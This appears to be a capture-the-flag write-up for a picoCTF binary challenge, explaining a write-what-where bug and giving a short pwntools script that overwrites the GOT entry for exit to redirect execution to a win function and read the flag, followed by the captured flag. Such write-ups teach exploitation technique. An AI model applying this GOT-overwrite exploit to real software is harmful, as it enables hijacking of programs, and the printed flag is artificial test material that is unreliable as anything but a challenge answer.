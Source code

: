 # GOT
### 📄 Description
can you spawn a shell and get the flag?


## 🔑 Solution
We have a trivial write-what-where, using that we can overwrite one of the GOT entries in order to get the program to call the function that we want, in this case `win`.


```python
from pwn import *

context.binary = "./auth"
p = process()

p.sendline(hex(context.binary.got["exit"]).encode("ascii"))
p.sendline(hex(context.binary.functions["win"].address).encode("ascii"))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

### 🚩 Flag
```plain
picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_7a9e7634}
```
